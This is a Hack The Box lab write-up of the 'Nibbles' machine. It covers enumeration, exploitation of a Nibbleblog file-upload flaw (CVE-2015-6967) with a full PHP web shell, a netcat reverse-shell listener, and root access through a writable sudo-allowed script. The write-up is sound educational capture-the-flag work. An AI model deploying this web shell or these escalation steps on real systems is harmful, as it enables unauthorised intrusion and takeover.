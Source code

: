 ```yaml
---
tags:
  - hack
  - linux
---
```

# HTB: [Nibbles](https://app.hackthebox.com/machines/Nibbles)

> [!tip]- Summary with Spoilers
> - This machine was running Nibbleblog version `v4.0.3`, which was vulnerable to an authenticated file upload vulnerability (`CVE-2015-6967`).
> - I exploited the vulnerability to upload a malicious PHP shell and gained initial access as `nibbler`.
> - Privilege escalation was achieved via a `sudo` misconfiguration, allowing the execution of the `monitor.sh` script as `root`.

## Enumerate

```console
$ nmap -nv -sCV -T4 $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-20 11:54 CST
[...]
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 11:55
Completed NSE at 11:55, 0.00s elapsed
Initiating NSE at 11:55
Completed NSE at 11:55, 0.00s elapsed
Initiating NSE at 11:55
Completed NSE at 11:55, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.79 seconds

```

The web page mentions something called "nibbleblog" in the HTML comments:

![](_/htb-nibbles-20231811-1.png)

The `/nibbleblog/` URL:

![](_/htb-nibbles-20231811-2.png)

The login page is available at `http://10.10.10.75/nibbleblog/admin.php`. I tried brute-forcing the password for the `admin` user but this happens after a few attempts:

![](_/htb-nibbles-20231811-3.png)

My IP even shows up here:

![](_/htb-nibbles-20231811-4.png)

And then I guessed the password, which was… `nibbles`:

![](_/htb-nibbles-20231811-5.png)

## Exploit

The version of Nibbleblog is v4.0.3, as verified by this README file:

![](_/htb-nibbles-20231811-6.png)

That means the software is vulnerable to an arbitrary file upload per CVE-2015-6967. There's [a PoC available](https://github.com/dix0nym/CVE-2015-6967).

I prepare the following payload:

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

And trigger the exploit:

```console
$ python3 ./exploit.py --url http://${t}/nibbleblog/ --username admin --password nibbles --payload ~/shell.php
[+] Login Successful.
[+] Upload likely successfull.
[+] Exploit launched, check for shell.
```

It works:

![](_/htb-nibbles-20231811-7.png)

Reverse shell:

![](_/htb-nibbles-20231811-8.png)

```console

$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.75] 33576
$ cd /home/nibbler
cd /home/nibbler
$ cat user.txt
cat user.txt
b8b4a7[...]
```

## Escalate

User `nibbler` has `sudo` for a script called `monitor.sh`:

```console
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ mkdir -p personal/stuff
mkdir -p personal/stuff
nibbler@Nibbles:/home/nibbler$ echo sh > personal/stuff/monitor.sh
echo sh > personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ chmod +x personal/stuff/monitor.sh
chmod +x personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
078111[...]
```

## Summary

The target is running an unpatched version of its blogging software that includes an authenticated arbitrary file upload vulnerability. The exploit requires valid credentials, but the password was easy to guess. Privilege escalation was simple do to a `sudoers` entry pointing to a file that was writeable by the user, allowing execution of `sh` as the root user.
